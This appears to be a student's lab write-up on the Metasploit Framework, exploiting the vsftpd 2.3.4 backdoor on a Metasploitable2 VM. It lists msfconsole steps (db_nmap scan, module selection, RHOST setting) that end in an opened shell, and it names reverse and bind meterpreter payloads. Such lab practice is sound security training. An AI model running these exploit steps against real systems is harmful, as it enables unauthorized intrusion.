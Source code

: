 # 🎯 Metasploit Framework - Vulnerability Scanning & Exploitation

## 🧠 What I Learned

In this exercise, I explored the **Metasploit Framework**, a powerful tool used for **vulnerability assessment, payload generation, and exploitation**. I learned how to perform Nmap scans from inside Metasploit, search for vulnerable services, configure modules, and successfully launch an exploit against a known vulnerable target (Metasploitable2).

---

## 📚 Topics Covered

- Launching and navigating Metasploit (`msfconsole`)
- Performing port scans within Metasploit (`db_nmap`)
- Searching and selecting exploit modules
- Setting up payloads (reverse shells, bind shells)
- Configuring exploit options (RHOST, LHOST, LPORT, etc.)
- Gaining a session and interacting with a compromised machine
- Basic post-exploitation with Meterpreter

---

## 🛠️ Tools & Environment

- **Kali Linux** (Attacker VM)
- **Metasploit Framework**
- **Metasploitable2** (Target VM)
- Nmap (integrated with Metasploit using `db_nmap`)

---

## 🔍 Workflow Example

### 1. Start Metasploit Console
  msfconsole
### 2. Scan Target with Nmap from within Metasploit
  - db_nmap 192.168.56.101
### 3. Search for a Vulnerable Service
  - search vsftpd 2.3.4
### 4. Configure Exploit Module
  - use exploit/unix/ftp/vsftpd_234_backdoor
  - set RHOST 192.168.56.101
### 5. Run the Exploit
  run/exploit
### 🎉 Successful: Shell session opened.

🧪 Payload Concepts
Payloads are the actual code that gets executed on the target

Common types:
windows/meterpreter/reverse_tcp
linux/x86/meterpreter/bind_tcp
Used set PAYLOAD and set LHOST/LPORT to customize
